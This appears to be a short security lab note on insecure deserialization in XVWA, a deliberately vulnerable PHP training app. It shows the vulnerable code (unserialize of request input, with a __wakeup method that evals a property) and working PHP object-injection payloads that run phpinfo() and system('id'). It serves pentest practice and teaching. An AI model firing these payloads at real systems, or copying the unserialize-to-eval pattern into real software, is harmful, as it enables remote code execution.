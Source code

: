 # A8 - Insecure Deserialization


## XVWA

Target url:

`/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:%22XVWA%22;i:1;s:33:%22Xtreme%20Vulnerable%20Web%20Application%22;}`

Vulnerable code:

```
<?php 
    error_reporting(E_ALL);
    class PHPObjectInjection{
        public $inject;

        function __construct(){

        }

        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
//?r=a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
    if(isset($_REQUEST['r'])){  

        $var1=unserialize($_REQUEST['r']);
        

        if(is_array($var1)){ 
            echo "
".$var1[0]." - ".$var1[1];
        }
    }else{
        echo "parameter is missing";
    }
?>
```

PHP Code injection

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:10:"phpinfo();";}`

without restrictions

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}`

`O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:13:%22system(%27id%27);%22;}`

